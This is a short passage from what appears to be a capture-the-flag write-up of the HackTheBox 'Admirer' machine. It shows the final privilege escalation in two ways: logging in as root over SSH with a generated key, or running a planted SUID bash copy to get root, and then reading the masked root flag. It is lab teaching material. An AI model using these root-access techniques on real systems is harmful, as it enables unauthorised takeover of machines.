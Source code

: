 Now I can use either path to root. SSH:

    
    
    root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.187
    Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
    
    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue May  5 12:14:18 2020 from 10.10.14.47
    root@admirer:~#
    

Or SUID `bash`:

    
    
    waldo@admirer:/var/tmp$ ./.0xdf -p
    .0xdf-4.4# id
    uid=1000(waldo) gid=1000(waldo) euid=0(root) groups=1000(waldo),1001(admins)
    

Either way, grab `root.txt`:

    
    
    root@admirer:~# cat root.txt
    996a2609************************
    

[](/2020/09/26/htb-admirer.html)

